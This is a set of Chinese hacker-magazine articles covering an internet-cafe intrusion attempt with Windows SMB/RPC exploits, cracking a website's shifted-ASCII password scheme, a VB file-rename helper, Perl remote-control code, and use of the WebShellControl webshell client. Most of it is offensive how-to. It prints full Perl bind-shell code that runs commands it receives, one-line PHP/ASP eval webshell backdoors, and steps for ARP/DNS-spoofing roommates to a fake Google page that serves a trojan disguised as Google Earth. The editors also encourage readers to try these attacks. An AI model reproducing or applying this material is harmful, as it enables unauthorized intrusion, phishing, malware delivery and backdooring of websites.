这下有人允许，就可以尽情地发挥了。在网上看了一些流行的黑客攻击方法，似乎这阵子流行 ARP 攻击。先说说攻击原理：要知道 ARP 攻击就要知道 ARP 协议。ARP 协议是“Address Resolution Protocol”（地址解析协议）的缩写。在局域网中，网络中实际传输的是“帧”，帧里面是有目标主机的 MAC 地址的。在以太网中，一个主机和另一个主机进行直接通信，必须要知道目标主机的 MAC 地址。但这个目标 MAC 地址是如何获得的呢？它就是通过地址解析协议获得的。所谓“地址解析”就是主机在发送帧前将目标 IP 地址转换成目标 MAC 地址的过程。ARP 协议的基本功能就是通过目标设备的 IP 地址，查询目标设备的 MAC 地址，以保证通信的顺利进行。每台安装有 TCP/IP 协议的电脑里有一个 ARP 缓存表，表里的 IP 地址与 MAC 地址是一一对应的。再看看网上有没有什么可以利用的工具，似乎很容易就找到了工具：WinArpAttacker，如图 1。使用这个工具前要装一个驱动程序：

WinPcap 3.1。

用工具测试了一下，似乎 ARP 欺骗不成功（点 SCAN 扫描局域网里的计算机，选中要攻击的计算机再点击 Attack 中的 Flood），不过用 WinArpAttacker 可以进行 IP 冲突（选中要攻击的计算机再点击 Attack 中的 IP Conflict）。但如果管理员用 Sniffer 很容易发现冲突源，不要干傻事哦。由此可以判断 IP 和 MAC 地址是绑定的（不好意思，我早就知道是绑定了。在这说，只是给大家一个思路。不过绑定是双绑：在客户机上绑定路由器的 IP 和 MAC 地址，在路由器上绑定用户主机的 IP 和 MAC 地址）。

MAC 地址）。要绑定 PC 上的 IP 和 MAC 地址只要用 ARP -S 命令就可以了。

从这个方法下手，应该是没什么希望了。攻击不行，我就把服务器的权限拿下来。先扫一下看局域网里的服务器的 IP 是多少。整个局域网里有 3 台服务器，从计算机名来看应该分别是游戏服务器、电影服务器、收费主控端。看来命名得太清楚也不是一件什么好事，虽然方便以后的维护。网吧里用的都是 Windows 系统，没几家网吧会用 Linux，因为还要请专门的 Linux 管理员。从人力投资上来看，太浪费了。老板都是要用最少的钱赢取最大的利益。既然是 Windows 系统，我看了看自己的远程溢出工具箱。用 getos（一个用来猜测对方操作系统的一个工具，但也不能完全相信这个，不排除高手可以更改，以迷惑入侵者）得知游戏服务器操作系统是 Windows 2003，电影服务器是 Windows 2000，收费主控端用的是 Windows 2003。我利用 MS04-011、MS04-028、MS05-039、MS06-040 的缓冲区溢出漏洞都没把收费主控端拿下。我去看看 Windows 最近出了什么漏洞，并且出了相关工具的，好像出了 MS06-070。到微软官方看了下，漏洞对 Microsoft Windows 2000 Service Pack 4 和 Microsoft Windows XP Service Pack 2 都有效，并且可以远程执行代码。不过工具的编译者说要在域环境下，但网吧的一般都是在工作组环境下。要想知道是在域环境下还是在工作组环境下可以在“我的电脑”点击右键选“属性”的“计算机名”选项卡中得知，如图 2。

看来这个漏洞也没的利用价值了。调整了一下思路，既然不能从收费主控端下手，就只有找其他几个服务器了。终于在电影服务器找到了手机的机会，用 MS06-040 溢出成功得到权限，在命令行下这个 Exploit 的使用方法为：MS06-040 <host> <download url> <os type>。<host>指的是攻击对象 IP，<download url>指的是要在攻击主机上下载并运行的程序，<os type>指的是攻击主机操作系统类型，1 代表 Win 2000 SP4，2 代表 Win XP SP1。本来用 MS06-014 在网吧的电影首页挂马，然后等其他的服务器上钩。想想，不对，要是早就打了补丁，不是前功尽弃了？在这思维陷入了僵局，突然想到会不会有 IPC$ 这样白痴的漏洞。怀着侥幸的心理用“超级网络邻居”扫了一下，果然这样的漏洞不存在。在 Metasploit 中找了半天，也没有找到拿下权限的溢出程序。静下心想想：这样太盲目了。先看看对方开了哪些端口，如图 3。

我们可以通过端口来得知开了哪些服务，再来试试服务对应的漏洞。开了 135 端口，说明 RPC 是开启的。RPC（Remote Procedure Call）中文叫作远程过程调用，是一种 Windows 系统的协议。RPC 提供了一种进程间通信机制，通过这一机制，在一台计算机上运行的程序可以顺畅地执行某个远程系统上的代码，但不幸的是它存在一个漏洞，Remoxec 就是针对这个漏洞的利用工具，不过要知道对方的管理员权限的用户名和密码，如图 4。

手工猜测密码没有成功。接着看其它端口：139 端口是 NETBIOS 共享服务，445 端口是 Server 等服务，应用程序的协议是 SMB (Server Message Block)。记忆之中，MS06035 漏洞利用的就是这个。到微软看了下，果然是。官方对这个漏洞的描述是：Server 服务中存在一个信息泄露漏洞，该漏洞可能允许攻击者查看在传输期间用于存储 SMB 通信的内存片段。Server 驱动程序中存在一个远程执行代码漏洞，成功利用此漏洞的攻击者可以完全控制受影响的系统。还好，我的工具箱里有工具，不过这个工具只可以用来攻击。看看有没有漏洞：在命令行下输入：**MS06035 192.168.0.249 445**，然后去服务器那边看了下，蓝屏了，漏洞存在！不过对权限的提升没有什么帮助。1025 和 1026 不知道是什么端口，问问 google 也没找到答案。1433 端口代表安装了 Mssql，而对 Mssql 溢出也失败了。用 Mssql 连接器手工猜测了几个弱口令，失败。4099 也不知道是什么端口，不过后来看了下本机的连接，发现原来 4099 是用来和收费的主机进行通信的，如图 5。
端口过滤，结果没用几分钟就锁屏，并提示与服务器中断。看来软件的作者考虑得还是很仔细的。

对网络上都检测得差不多了，再看看本地的收费软件。看一下注册表里的启动项：**HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run**，发现了一个为 **C:\WINDOWS\system32\Intenat.exe** 的字符串值。结束 Intenat.exe 进程就直接锁屏，看来该进程就是收费程序的进程。把键值删掉重启，开机的时候按下 Ctrl+F9 来跳过小哨兵。结果开机收费程序同样运行了，本以为是没有跳过小哨兵。看了下注册表，键值不见了，看来还有其他的加载方式。分析软件我不太懂，想想一般的菜鸟也只能到这一步了。在网上看了一下，发现有的用新建一个用户来逃避收费。我试了试，新建一个并用新的用户登陆。登陆后就不断报错，不用一分钟就自动关机。看来一般的方法很难达到免费上网。

我的安全检测就到这里为止了，总的来说服务器还是比较安全的，只有电影服务器出了些小问题，另外客户机的安全防御做得还凑合。把微软的一些补丁打上，闪人！

> [文章中涉及到的工具 WinArpAttacker、Remoxec、超级网络邻居以及相关 Exploit 光盘中有收录]

> 编辑点评：像文章中的作者这样可以在网吧进行安全检测的机会真的是很宝贵，至少不用像我们那样在老板没有授权的情况下偷偷进行“安检”提心吊胆。除了一直在网吧中肆虐的 ARP 攻击问题外，大家也可以看到缓冲区溢出漏洞在网吧里也是处处可见的，而这也不仅限于客户机，很多服务器也存在缓冲区溢出漏洞。这次“全面检测”虽然全面，但是对一些内容的描述不够详细，有一些专业术语描述得比较晦涩，这让很多朋友有些不好消化吧！另外文章中提到的 IPC$，很多人说它是一种漏洞，其实这种说法是错误的，IPC$ 只是微软的一个网络“通道”。之所以有人这么说，我想是因为 IPC$ 上发生了太多的入侵的原因吧！

# 一个关于 ASCII 码加密的分析

KYO

> 张宇编译：每天读的书太多，容易让人迷失方向。一定要在每天晚上想想自己学了些什么，还有些什么相关的东西需要掌握，自己对什么最感兴趣，在一本书上花得时间太长还是不够等等。同时也应该多想想未来最有可能出现的应用，这样能够让你不是追赶技术潮流而是引领技术潮流。同时，努力使用现在已经掌握的技术和理论去制作具有一定新意的东西。坚持这样做能够让你真正成为一个软件“研发者”而不仅仅是一个 CODER。

从本文你可以学到：
逆向分析、解密 ASCII 加密过的密码

今天无意中去逛 NOHACK 的论坛，看到有人在讨论关于网站后台密码使用 ASCII 码加密的问题，这种加密方式导致，即使通过注入漏洞扫描出账号和密码也无法登录后台。帖子地址是 http://www.NOHACK.cn/bbs/thread-54579-1-1.html，不过一直到末尾也没人给出有效的解答。其实这种加密在两年前我就遇到过，并且很轻松地就被解了，现在又有人提出来，那就让我来解释一下吧。
我找了一个用这种加密方式的网站来做说明。先用 NBSI 扫描一下，扫描结果如图 1 所示。可以看到用户名为“网络公司”，密码为“y|msg4um}”。使用此账号和密码无法登录，如图 2 所示。

看来数据库的密码是经过加密后再对比的。login.asp 肯定会引用加密函数，那我们就首先来看看 login.asp 的关键部分，如图 3 所示。

```asp
<%
pud = request.form("pud")
name = request.form("name")
Set rs = Server.CreateObject("ADODB.Connection")
sql = "select * from Manage_User where UserName='" & name & "' And PassWord='"&encrypt(pud)&"'"
Set rs = conn.Execute(sql)

If Not rs.EOF = True Then
Session("Name") = rs("UserName")
Session("pud") = rs("PassWord")
Response.Redirect("Manage.asp")
Else
Response.Redirect "login.asp?msg=您输入了错误的帐号或口令，请再次输入! "
End If
end if
%>

图 3 login.asp 的关键代码
```

其中有一句为 sql = "select * from Manage_User where UserName='" & name & "' And PassWord='"&encrypt(pud)&"'"，这里面有一个 encrypt 函数，意思是如果输入的密码经过加密后才跟数据库中的密码进行比较，相等则可以成功。现在柳暗花明了，只需找到 encrypt() 函数就 OK 了。在 login.asp 的最开始有一段引用是 <!--#include file="Conn.asp"-->，那么可以肯定加密函数就在 conn.asp 里。现在看看 conn.asp 的源代码：

```vbscript
function decrypt(dcode); 解密函数
  dim texts
  dim i
  for i=1 to len(dcode); 密文的长度作为循环
```

```vb
texts=texts & chr(asc(mid(dcode,i,2))-i); 字符串转换为第一位ASCII值减1, 第2位ASCII值减2 依次类推得到的ASCII值再转化过来就是明文密码!
next
decrypt=texts
end function
```

```vb
function encrypt(ecode); 加密函数
Dim texts
dim i
for i=1 to len(ecode); 输入的密码的长度作为循环
texts=texts & chr(asc(mid(ecode,i,2))+i); 加密的函数就和上面的反过来就 OK 了。
next
encrypt = texts
end function
```

```vb
For geshu2 = 1 To geshu
tmp = Mid(miwen1, geshu2, 1)
tmp2 = Chr(Asc(tmp) - geshu2)
miwen11 = miwen11 & tmp2

Next geshu2
Text2.Text = miwen11
End Sub


```

好了，看了我上面的说明，就简单了。现在用解密函数的原理写一个 VB 的解密程序。具体代码如下：
# 图 4 解密结果

```vb
Private Sub Command1_Click()
Dim miwen1 As String
Dim miwen11 As String
Dim geshu As Integer
Dim geshu2 As Integer
Dim tmp As String
Dim tmp2 As String
miwen1 = Text1.Text
geshu = Len(miwen1)


```

现在我来解密一下上面的“y|msg4um}”，结果是“xzjob.net”，如图 4 所示。

用解密出来密码再次登录网站，顺利进去了。还能备份数据库呢，漏洞不小哦！如图 5 所示。
# 图 5 备份数据库漏洞

> > 谨以此篇文章献给 NOHACK 论坛的朋友，希望能给你们带来帮助。
> (作者提到的 ASCII 码解密工具的代码已经收录在光盘中)
> **编辑点评：** 现在多数网站还都是 MD5 的加密方式，ASCII 的确很少见，本文的作者为大家带来了稀罕物。
> JiaJia [YuLv]

# 用 VB 写文件改名助手 续《再也不要背叛我——迅雷》

## 从本文你可以学到：

- 利用 Command 编写带参数的 VB 程序

在上一期的《黑手》中，许多看了《再也不要背叛我——迅雷》这篇文章的朋友都向我询问其中的加加文件改名助手用 VB 是怎么写出来的，所以今天在这里我就把这个文件改名助手的编写给大家介绍一下。
# 图 1 设置工程属性中的启动对象

## 分析

其实就是用 VB 编写一个可以带参数运行的程序，这个文件改名助手实现起来是很简单的，因为在 VB 中有一个参数是 Command，它可以让程序带参数运行。只需知道这个知识点，就可以很容易地用 VB 写出能带参数运行的程序了。还需要知道在 VB 中改文件名要使用到 Name...As...语句即可。好了，下面我们进入主题吧！

## 编写

打开 VB6 添加一个模块 (注：不需要创建窗体)，设定工程 1 的属性，把启动对象改为 Sub Main。如图 1 所示。

完成上面的操作之后，下面我们就可以一起来写模块中的代码啦！首先创建程序主过程 Main，因为上面我们选择的启动对象就是这个主过程。代码以及详细说明如下：

```vb
Option Explicit
Sub Main() ' 程序主过程
    On Error Resume Next ' 设置错误陷阱，忽略错误!
    Dim strName As String ' 定义变量 strName 存放文件名
    Dim strNewName As String ' 定义变量 strNewName 存放新文件名
    Select Case Command
        Case "test" ' 当 Command = "test" 时，测试一下 Command 参数的使用。
            MsgBox "你好呀! 测试一下! ", vbInformation + vbOKOnly, "测试 VB 中的 Command 参数"
        Case "" ' 当不带参数运行程序时，则弹出本软件的使用方法。
            MsgBox "// 简单说明 //" & vbNewLine & _
            " 手动改名方法: ReplaceFileName.exe [原文件名] [新文件名]" & vbNewLine & _
            " 自动改名方法: ReplaceFileName.exe [原文件名]", vbInformation + vbOKOnly, "程序帮助"
        Case Else ' 当 Command 为其他参数时，视为改文件名。
            If InStr(Command, ";") > 0 Then ' 若 Command 内含有 ";" 字符，则视为用户手动改文件名。
                strName = Left(Command, InStrRev(Command, ";") - 1) ' 给变量 strName 赋值为原文件名
                ' 这里之所以选择 ";" 分号作为标示符，而不选择 " " 作为标示符，是因为 " " 空格比较常用。
                ' 注: "|", ">" 这些都不适合用于标示符
                ' 例如 Command = "C:\test 1.txt;abc 123.txt" 看着就明白了
```

```vb
strNewName = Left$(strName, InStrRev(strName, "")) & Right(Command, Len(Command) - Len(strName) - 1)
'给变量 strNewName 赋值为原文件路径 + 新文件名
Name strName As strNewName
'更改文件名使用 Name ... As ... 语句
Else '若 Command 内无 ";" 字符, 则视为自动改文件名。
strName = Command
'给变量 strName 赋值为 Command, 即原文件名。
strNewName = Left$(strName, InStrRev(strName, "")) & "[" & Month(Date) & "月" & Day(Date) & "日" & "]" & Right$(strName, Len(strName) - InStrRev(strName, ""))
'给变量 strNewName 赋值为新文件名。
'注: 需要使用随机可以使用 Rnd 函数。
Name strName As strNewName
'更改文件名使用 Name ... As ... 语句
End If
End Select
End Sub


```

写完后, 我们生成 C:\1.exe, 接下来测试一下效果, 如图 2、图 3、图 4 所示。
## 写在最后

就这样, 一个简单的文件改名助手就完成了, 你还可以根据自己的需要把程序完善。比如使用随机数组给文件改名, 可以使用 VB 中的 Rnd 函数来实现, 具体大家可以尝试一下。若要加上窗体, 则先创建一个窗体 Form1, 再在 Main 过程中加入 Form1.Show 这行代码即可。知道 Command 参数之后可以编写出很多有意思的小程序, 就等待大家去研究啦！
如果大家有什么疑问或者想法都可以到 NoHack 的 BBS (http://WWw.NoHack.Cn/bbs) 或我的 Blog (Http://Www.YuLv.Net) 上留言, 我的 ID 是 JiaJia。

> > (作者提到的用 VB 写文件改名助手的代码已经收录在光盘中)

> > 编辑点评: 一个简单的想法解决一个繁琐的问题, 这就是程序, 这就是它的魅力所在。

# 教你用 Perl 编写远程控制程序

wolfsea

- 从本文中你可以学到：
- 了解 Socket 库函数
- 用 Perl 语言来实现远程控制

Perl 作为一种网络编程的实用语言，它提供了相当丰富的 TCP/IP 网络函数，其中绝大多数函数都直接来源于 C 语言的 Socket 库函数，许多 Perl 语言和 C 语言的 Socket 库函数在形式和使用方法上都是一样的，可以说会 C 语言的朋友一定会用 Perl 语言的 Socket 库函数。但是我们今天要讲的是用另一种方法，即使用面向对象的 IO::Socket 来编写一个远程控制程序。IO::Socket 及相关模块为网络编程提供了更直观的接口，并简化了代码使之更易于阅读。

现在我们来仔细讲解一下 IO::Socket 的用法。

## 导入 IO::Socket 模块

在使用 IO::Socket 之前，我们需要对 IO::Socket 模块导入。在这里要讲的是，在 IO::Socket 下有两个子类 IO::Socket::INET 与 IO::Socket::UNIX。我们要用到的当然是 IO::Socket::INET 子类了，所以用 use IO::Socket::INET; 语句导入 IO::Socket::INET 模块。

## 创建 IO::Socket::INET 对象

和许多面向对象一样，我们可以通过调用 IO::Socket::INET 的 new() 方法创建新的 IO::Socket::INET 对象，例如：$sock = IO::Socket::INET->new(Socket 参数);，其中 $sock 将作为 Socket 对象变量

下面我们先给出一个 IO::Socket::INET->new() 的参数列表，如下所示。

| 参数 | 描述 | 值 |
| --- | --- | --- |
| PeerAddr | 远程主机的地址 | 主机地址[:端口或服务] |
| PeerHost | 与 PeerAddr 相同 | |
| PeerPort | 远程端口或服务 | 端口或服务 |
| LocalAddr | 本地主机绑定地址 | 主机地址[:端口或服务] |
| LocalHost | 与 LocalAddr 相同 | |
| LocalPort | 本地主机绑定端口 | 端口或服务 |
| Proto | 协议名 (或号) | 协议名或协议号 |
| Type | 套接字类型 | SOCK_STREAM / SOCK_DGRAM |
| Listen | 监听的队列长度 | 整形数 |
| Reuse | 在绑定之前设置 SO_REUSEADDR | 布尔值 |
| Timeout | 超时值 | 整形数 |
| MultiHomed | 在多宿主主机上尝试所有地址 | 布尔值 |

[该表摘自《Perl 网络编程》Network Programming with Perl 清华大学出版社 2002-3-1]

这里 IO::Socket::INET 也提供创建新的 IO::Socket::INET 对象的缩写形式 $sock = IO::Socket::INET->new('127.0.0.1:80');，等同于 $sock = IO::Socket::INET->new(PeerAddr => '127.0.0.1', PeerPort => 80);。

## 对 IO::Socket::INET 对象的操作

先来看这个对套接字进行写操作的例子：print $Socket $message;。此处的 $Socket 是远程套接字，而 $message 是所要发送的信息，执行结果为向远程套接字发送 $message 信息。

我们可以这样对套接字进行读操作：$answer = <$Socket>;。此处的 $Socket 同样是远程套接字，而 $answer 是从远程套接字上## 一组远程通讯模型

读取的信息，执行结果为从远程套接字读取信息到 $answer。

再补充讲解一个 accept() 方法，例子：$remote_sock = $sock->accept();，$remote_sock 是远程连接套接字对象变量，$sock 是本地服务端套接字对象变量，该方法用于本地服务端的等待监听过程。不带参数，返回值为远程连接的套接字对象变量。是取得套接字对象变量，以便进行操作的方法。

对套接字的操作就讲到这里，当然这只是本文要用到的对套接字的简单操作，至于其他操作您可以参考 Perl 自带的 ActivePerl User Guide 文件。

了解了一些 IO::Socket 的基本知识，下面我们看一组 IO::Socket 的远程通讯模型：

```perl
#!usr/bin/Perl
# 通讯模型 Client(客户端)
# wo1fSea[w.Group]
use IO::Socket::INET;
## 导入 IO::Socket::INET 模块

$remote_host="192.168.3.128";
$remote_port=310;
## 设置远程主机的地址及端口

$Socket=IO::Socket::INET->new(PeerAddr=>$remote_host,
PeerPort=>$remote_port,
Proto=>"tcp",
Type=>SOCK_STREAM)
or die "Could not connect to $remote_host:$remote_port:
$!\n";
## 创建 IO::Socket::INET 对象

print "message>";

## 以下部分建立循环对远程对象进行读写操作
while($Socket){
$message=<STDIN>;
print $Socket "$message";
$answer=<$Socket>;

if($answer){
print "$answer\nmessage>";
}
}

close($Socket);
```

```perl
#!usr/bin/Perl
# 通讯模型 Server(服务器)
# wo1fSea[w.Group]
use IO::Socket::INET;
## 导入 IO::Socket::INET 模块

$server_port=310;
## 设置本地服务端口

$server=IO::Socket::INET->new(LocalPort=>$server_port,
Type=>SOCK_STREAM,
Proto=>"tcp",
Reuse=>1,
Listen=>10)
or die "Could not be a tcp server on port $server_port:$!\n";
## 创建 IO::Socket::INET 对象

$client=$server->accept();
# 等待远程端连接, 取得远程套接字

## 以下部分建立循环对远程对象进行读写操作
```

```perl
while($client){
$answer=<$client>;

if($answer){
print "$answer\nmessage>";
}

$message=<STDIN>;
print $client "$message";
}

close($server);


```
这组程序运行结果如图 1、图 2 所示。实现了远程端与本地的信息互发，在此基础上可以很容易将其改成一组远程控制程序，只需将服务端接收到信息作为命令行交给 cmd.exe 执行即可，我们看看完成后的服务端代码。

# 远程控制服务端

```perl
#!usr/bin/Perl
#Server(服务器)
#wo1fSea[w.Group]
use IO::Socket::INET;
## 导入 IO::Socket::INET 模块

if($#ARGV<0){
print"\nServer\n \nUsage: \n filename [server_port]\n
\nmade by wo1fSea \nCopyright [w.w Group] 2006\n";
exit(1);
}
## 版权信息及使用说明

$server_port=$ARGV[0];
## 读取参数作为本地服务端口

$server=IO::Socket::INET->new(LocalPort=>$server_port,
Type=>SOCK_STREAM,
Proto=>"tcp",
Reuse=>1,
Listen=>5)
or die "Could not be a tcp server on port $server_port:$!\n";
## 创建 IO::Socket::INET 对象

$client=$server->accept();
# 等待远程端连接, 取得远程套接字

print $client "CMD>";

while($client){
## 循环处理部分

$answer=<$client>;
print "$answer";
chomp($answer);

if($answer eq 'exit'){
# 判断远程信息是否为 exit, 是则关闭服务, 退出程序

close($server);
exit(1);
}
else{
@cmd=`$answer`;
# 此处的反引号意为将反引号中的内容作为命令执行并输出到 @cmd,
```

当然我们还可以用 system()或文件操作符来执行命令, 这里不再赘述

```perl
print $client "@cmd\nCMD>";
print @cmd;
}
}


```
图 3 nc 连接运行后的结果

该程序执行后，可用 nc 连接，其效果如图 3 所示。
我们也可以将上面通讯模型 Client(客户端)改动后作为客户端连接。由于时间关系，不再详述如何改动，有兴趣的可以当作课外作业完成。

(作者提到的教你用 Perl 编写远程控制程序的代码已经收录在光盘中)

**编辑点评**：上一期看了作者的《用 perl 编写端口重定向工具》，感觉很不错。学习了很多关于 Perl 的东西，才知道原来 Perl 的用处这么大，特别是在网络方面。

> > 张宇栏语：社会工程学就是使人们顺从你的意愿，满足你的欲望的一门艺术与学问。它并不单纯是一种控制意志的途径，但它不能帮助你掌握人们在非正常意识以外的行为，且学习与运用这门学问一点也不容易。

## 当 ARP 遇上 社会工程学

秋风一叶

从本文中你可以学到：

- 了解社会工程学，利用人的心理
- 学习使用花生壳及远程控制任我行

一日课后，与同学同在寝室上网，实在闲着无聊，突然对室友们的电脑成了兴趣，于是有了下面的过程。

## 首先在本地架好 FTP 与 WEB 服务器

FTP 用的是 Serv-U，WEB 就用微软的 IIS，具体步骤就不写了，十分简单，不熟悉的朋友可以多看看以前的杂志！至于 web 文件，这里我伪造了一个 Google 页面，多了个 Google Earth 下载，呵呵！下载的当然就是我们的木马了，木马的配置在后面会有所说明，如图 1 所示。
图 1 伪造的 Google 页面

## 使用花生壳进行域名解析

下载地址：http://www.oray.net，安装申请一免费域名，

这里以我申请的 google.vicp.net (google 比较像 Google) 为例，运行登录后即可！如图 2 所示。
图 2 登录后的花生壳

## 端口映射

由于是内网，要从外网下载我的木马就必须把我的相应端口映射出去。寝室的路由器是 TENDA6608S，中文界面，直接到虚拟服务器菜单下把本机的 80 端口映射出去并启用，如图 3 所示。现在访问 http://google.vicp.net 就可以看到我预先做好 的假的 Google 页面了。

## 木马配置

随便在硬盘里翻了个远程控制软件，这里就用任我行。配置一个反向连接被控端，更新 IP 文件使用 http://google.vicp.net/ip.htm，如图 4 所示。
图 3 80 端口映射

生成木马后与先前伪造的 Google 页连接以便下载。生成木马后最好加下强壳，以免被杀，这里我利用 winrar 把木马和真实的 Google 地球建成了一个自解压文件，解压后自动运行我的木马并删除自身，自解压文件的图标也换成了 Google 地球的图标，具体步骤我就跳过了，大家依情况而定。然后打开上线设置，FTP 服务器使用自己架设的 ftp://google.vicp.net，IP 文件内容为你所在的外网 IP 加上上线端口号，IP 在花生壳界面的右下角有显示，如图 5 所示。
图 4 自动上线更新 IP 文件配置
图 5 FTP 上线更新设置

到这里任我行就配置完毕，只等肉鸡上线了！

## ARP 欺骗与社会工程学的利用

接着使用 Cain 2.8 雨夜汉化版进行 ARP 中的 DNS 欺骗，首先扫描下室友们的 IP，点击 Cain 工具栏上的网卡图标开始嗅探并选择“嗅探”版块下的“主机”选项卡，然后在下面空白区域右击选择“扫描网卡 MAC 地址”，在随后出现的对话框中选择扫描子网中所有的计算机，确定后 Cain 即开始扫描，结果如图 6 所示。
图 6 IP/MAC 扫描结果

现在到“嗅探”版块中的“ARP”项，点击工具栏上的“+”号按钮来添加主机列表，在出现的对话框中左边选择网关地址，右边选择要欺骗的主机，然后确定，这样逐个全部填加进来，如图 7 所示。

随后来到“DNS 欺骗”列表中添加要用来欺骗的域名地址，
这里选择“www.google.cn”，响应的 IP 为我所在的外网 IP，如图 8 所示。

因为先前我们做了端口映射，这里所响应的就变成了我所伪造的 Google 页面了。设置完毕后点击工具栏上的“开始 ARP 欺骗”按钮开始 DNS 欺骗！

能够举一反三，只要大家善于思考，喜欢发现，其实周围就有很多简单的方法可以让我们轻松拿下别人的电脑！这里我使用假的 Google 页面和相似的域名来提供木马的下载可称钓鱼，亦可称简单社会工程学的利用，其实大家大可在假的页面上挂上网页木马更为简单，只是我这里室友们一向自动更新都开着，便出此下策！好了，文章就到这里，希望对广大菜鸟有所帮助！
（作者提到的花生壳、远程控制任我行、Cain 已经收录在光盘中）

## 经验总结

由于寝室里的人都比较喜欢用 Google，不出半个小时，就有一台肉鸡上线了，如图 9 所示。
整个过程谈不上什么技术，只是给大家一个思路，希望大家

> **编辑点评**：本文的确没有什么新技术可言，不过从侧面可以反应出这社会工程学的作用还是很大的，大得让舍友在短短的半小时之内就踏入作者所设的圈套。大家可以学习之，偶尔利用一下，一定受益匪浅的。

## WebShellControl, 网站控制的又一选择

小万

试用报告栏目寄语：要知道一款软件的好坏其实很简单，给一个完全不懂的新手来使用，如果能顺利上手，且能将软件的性能发挥到极致，那么可以说这款软件不错。如果相反，软件的开发者就必须进行修改更新，这样才能使一款软件在好的基础上更好。

- 从本文中你可以学到：
- 使用 WebShellControl 远程管理网站

说起海阳顶端网 ASP 木马，可以说是无人不知无人不晓，不过 2006+ 正式版已经成为该系列木马的最终版本，官方已经说明以后再也不出了。前两天从一个朋友处获得了一款由桂林老兵开发的远程控制工具 WEBSHELLCONTROL（以下简称 WSC），经过简单的测试以后发现很不错，于是通过《黑客手册》介绍给大家。

## WSC 程序简介

WSC 是一款集成了 PHP 和 ASP 两种 EVAL 客户端类型的网页木马，用户可以根据输入的木马地址自动调用相应的模块来连接我们的脚本后门。该程序和其他诸如海阳顶端网 ASP 木马、蓝屏 ASP 木马有很大的不同，这些网页木马无论是客户端还是服务端都是以脚本内容的网页形式出现的，但是 WSC 的客户端程序确是一款可执行程序。

## 设置服务端代码

首先我们在目标脚本程序（PHP 或 ASP）中插入后门代码，也就是该木马的服务端程序。PHP 类型的脚本在`<?`和`?>`之间插入通用代码 “`@eval($HTTP_POST_VARS['pass'])`”; ASP 类型的脚本则在`<%`和`%>`之间插入通用代码 “`eval request("pass")`” 即可。我们看到 WSC 木马的服务端程序非常的短小，和我们常见的一句话 ASP 木马的服务端差不多。由此也可以明白 WSC 的功能没有海阳顶端网 ASP 木马那样强大，但是也比一句话 ASP 木马要丰富。然后通过小程序，也就是客户端程序连接刚刚插入过后门代码的文件，最后通过连接密码即可进行确认连接。默认的连接密码为前面所写的 pass，用户可以根据自己的需要更改这个密码。

## 设置 SHELL 连接

接着运行 WSC 木马，点击“工具”菜单下的“SHELL 管理”命令，然后在弹出的窗口设置服务端网页的地址。首先在“地址”选项后面填上 SHELL 的网页地址，接着在“密码”中输入连接密码。为了让管理员更加方便地记忆和区分每个 SHELL，用户还可以输入一些备注信息加以区分。如果有 MYSQL，可以在“备注”选项中输入：mysql 地址 | mysql 用户名 | mysql 密码 | 其他信息，然后点击“连接|添加|修改”按钮进行操作。如果是一个新的 SHELL 地址的话，程序就会把当前地址加到数据库中。如果是已存在，就会修改存入数据库，之后开始新的连接。如果要删除数据库中的某个 SHELL，只需要通过右键双击该 SHELL 信息即可。

另外，如果用户不想让远程服务器的日记记录下你的 IP 地址，可以通过设置“代理”选项来完成，如图 1 所示。

## WSC 实际应用

SHELL 数据设置完成以后，WSC 主界面工具栏中的相应按钮就会立即生效，并且在标题栏显示相关信息。如果是 Windows 系统的话，还会显示相应的盘符，这时用户就可以使用相应的功能了。首先点击工具栏中的“文件管理”命令，就可以查看远程服务器磁盘中的相应文件，通过右键菜单中的浏览、删除、编辑、上传、下载文件等命令还可以进行基本的远程管理功能，相当于一个文件系统的资源管理器，如图 2 所示。

任意选择一个网页文件后，点击“编辑”命令后就会弹出一个“文本文件显示”窗口，然后自动载入刚刚选择的网页文件供用户浏览其代码，如图 3 所示。
如果用户要新建一个网页文件，通过“新建”命令也可以在这样的窗口中进行输入编辑，完成后点击“保存”按钮即可将其保存到远程服务器中，如图 4 所示。
另外点击“下载”命令，可以将指定文件下载到本地进行保存，在弹出的窗口可以设置文件保存的地址，如图 5 所示。
通过类似的方法也可以将本地文件上传到远程服务器中，当然要注意服务器允许上传文件的大小限制，如图 6 所示。

本程序在提交的过程中除了 ASP 部分上传时会有一个 GET 参数外，其它所有操作都是 POST 完成的，避免了网站日志的记录。如果用户想下载比较大的文件，还是推荐直接通过 HTTP 协议进行下载。

通过“SHELL命令”命令，我们可以直接在远程服务器上执行各种终端命令。点击“SHELL命令”按钮，程序默认的是调用服务器系统自身的 cmd.exe。有权限限制执行的话，可以执行 Guest 权限的命令。如果服务器权限设置很严格，用户根本没有办法调用系统的 cmd.exe，用户可以首先自己上传一个 cmd.exe，然后正确输入 cmd.exe 的位置并且执行就可以了。在 PHP 脚本环境下执行，用户直接输入命令即可，并且可以用分号输入多句。在 ASP 脚本环境下执行，必须在之前加上 cmd.exe 的路径并且加上一个 /c 的参数，如图 7 所示。

通过“数据库管理”功能，我们可以对远程服务器中的数据库进行相应的操作。

如果用户在前面已经填写过相关的配置信息，程序将会自动填写上连接的地址账号和密码了。然后点连接即会显示数据库列表，再点数据库列表就会显示相应的数据库表名，再点击数据库名就会显示列名，如图 8 所示。

另外在数据库管理窗口的下方，用户通过对 SQL 语句的执行来管理数据库，用户可以使用的语句包括：SHOW、SELECT、UPDATE、DELETE 等基本功能。

通过“网站监视”功能，用户在有特殊需要的时候，就可以通过使用这个功能来监视远程服务器中的变化。比如我们在“SHELL执行结果监视”窗口的“命令”选项中输入需要监控的 SHELL 命令，如果这个命令的执行结果发生变化的话，用户就会在第一时间里被报警提示，如图 9 所示。

通过“我的日志”功能，用户可以在这里保存自己需要的有用信息，关键时候可以直接查询，这可是个很好用的功能。点击“我的日志”按钮，在弹出的“日志管理”窗口进行日志的编辑操作。为了区分各个日志的主要内容，用户可以设置该条日志的标题、内容、时间，以后就可以通过这些信息来查找相关的日志信息，如图 10 所示。

## 小结

从前面的介绍我们可以看出，WSC虽然功能暂时还不错，但仅有的几个功能已经够用了。期待老兵以后能给它持续升级。

(作者提到的WebShellControl已经收录在光盘中)

**编辑点评：**海阳顶端网可谓是网马之王，可惜现在已经停止更新了，原有版本也多在杀毒软件的黑名单中。WSC在这时候推出，给没有好马的小菜们提供了一个选择。

# 10086 的第一次

